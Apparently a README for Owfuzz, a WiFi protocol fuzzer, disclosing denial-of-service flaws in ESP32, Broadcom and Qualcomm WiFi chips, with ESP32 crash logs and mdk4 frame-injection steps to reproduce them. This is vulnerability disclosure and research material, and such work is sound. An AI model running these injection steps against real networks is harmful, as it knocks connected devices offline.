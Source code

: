 # Owfuzz
[Owfuzz](https://github.com/alipay/WiFi-Protocol-Fuzzing-Tool): a WiFi protocol fuzzing tool using openwifi


# Discovered vulnerabilities

- [CVE-2021-34173](#CVE-2021-34173)
- [CVE-2021-34174](#CVE-2021-34174)
- CVE-2021-1903(Undisclosed)
- CVE-2021-33028(Undisclosed)
- CVE-2021-33029(Undisclosed)
- [Qualcomm Vulnerbilities](#Qualcomm-Vulnerbilities)

## CVE-2021-34173

An attacker can cause a Wi-Fi Denial of Service(DoS) and kernel panic in v4.2 and earlier versions of Espressif's esp32 via a malformated beacon CSA frame. Esp32 device requires a reboot to recover.

- Crash logs
```
I (3494) wifi station: got ip:192.168.50.242
I (3504) wifi station: connected to ap SSID:AS password:1234567890/
Guru Meditation Error: Core  0 panic'ed (LoadProhibited). Exception was unhandled.

Core  0 register dump:
PC      : 0x400f2319  PS      : 0x00060b30  A0      : 0x8008e499  A1      : 0x3ffc0f40
0x400f2319: ieee80211_recv_bar at ??:?

A2      : 0x3ffb5428  A3      : 0x3ffb92cc  A4      : 0x00000088  A5      : 0x00000018
A6      : 0x00000001  A7      : 0x00000000  A8      : 0x3ffb5448  A9      : 0x3ffb9344
A10     : 0x3ffb5428  A11     : 0x03000000  A12     : 0x00000011  A13     : 0x3ffbf010
A14     : 0x40084294  A15     : 0x80000000  SAR     : 0x00000020  EXCCAUSE: 0x0000001c
0x40084294: task_ms_to_tick_wrapper at /Users/sc3d4r/Environment/esp/esp-idf/components/esp_wifi/esp32/esp_adapter.c:401

EXCVADDR: 0x03000000  LBEG    : 0x4000c2e0  LEND    : 0x4000c2f6  LCOUNT  : 0xffffffff

Backtrace:0x400f2316:0x3ffc0f40 0x4008e496:0x3ffc0f60 0x4008e525:0x3ffc0fb0 0x400923b1:0x3ffc0fd0 0x400900f8:0x3ffc0ff0 0x40089f75:0x3ffc1020
0x400f2316: ieee80211_recv_bar at ??:?

0x4008e496: sta_input at ??:?

0x4008e525: sta_rx_cb at ??:?

0x400923b1: ppRxPkt at ??:?

0x400900f8: ppTask at ??:?

0x40089f75: vPortTaskWrapper at /Users/sc3d4r/Environment/esp/esp-idf/components/freertos/port/xtensa/port.c:168

ELF file SHA256: 20d93a4b64d36560

Rebooting...
Re-enable cpu cache.
Guru Meditation Error: Core  0 panic'ed (IllegalInstruction). Exception was unhandled.
Memory dump at 0x400e9e5c: 2e0856e1 09ad6da9 9802d222
0x400e9e5c: rtc_clk_cpu_freq_to_xtal at /Users/sc3d4r/Environment/esp/esp-idf/components/esp_hw_support/port/esp32/rtc_clk.c:439

Core  0 register dump:
PC      : 0x400e9e62  PS      : 0x00060833  A0      : 0x800876a0  A1      : 0x3ffc0d40
0x400e9e62: rtc_clk_cpu_freq_set_xtal at /Users/sc3d4r/Environment/esp/esp-idf/components/esp_hw_support/port/esp32/rtc_clk.c:510

A2      : 0x00000000  A3      : 0x3ff000c4  A4      : 0x00000000  A5      : 0x00000001
A6      : 0x3ffb92cc  A7  
0x400817a6: _xt_user_exc at /Users/sc3d4r/Environment/esp/esp-idf/components/freertos/port/xtensa/xtensa_vectors.S:697

0x400f2316: ieee80211_recv_bar at ??:?

0x4008e496: sta_input at ??:?

0x4008e525: sta_rx_cb at ??:?

0x400923b1: ppRxPkt at ??:?

0x400900f8: ppTask at ??:?

0x40089f75: vPortTaskWrapper at /Users/sc3d4r/Environment/esp/esp-idf/components/freertos/port/xtensa/port.c:168
```

## CVE-2021-34174
This vulnerability is discovered in broadcom's BCM4352 and BCM43684 chips. Any wireless router using BCM4352 and BCM43684 will be affected, such as ASUS AX6100. An attacker may cause a Denial of Service (DoS) to any device connected to BCM4352 or BCM43684 routers by an association or reassociation frame.


## Qualcomm-Vulnerbilities
- Snapdragon series
- Killer Wireless AC 1535
- QCA9005

Please see [[pocs](pocs/qualcomm)] dir.


# Reproduce
```
(1) Linux (ubuntu/kali) OS

    apt-get install pkg-config libnl-3-dev libnl-genl-3-dev libpcap-dev 
    git clone https://github.com/aircrack-ng/mdk4
    cd mdk4
    make

    cd src

    #Write payload into ./pocs/poc_test
    echo "payload hex str" > ./pocs/poc_test


(2) Reproducing this issue
    a. Connecting device to AP
    b. To see what channel the AP is working on
    c. To see the MAC address of the AP and the device
    d. Plugging a WiFi USB adapter(support monitor mode and packet injection, 2.4G/5G) into the PC(linux) and to see the usb wifi interface name.

        sudo ifconfig iface_name down
        sudo iwconfig iface_name mode monitor
        sudo ifconfig iface_name up

    e. Reproduce using mdk4: sudo mdk4 [iface_name] x -c [channel_numer] -v poc_test -s 1 -B [ap-mac] -S [ap-mac] -T [sta-mac]
```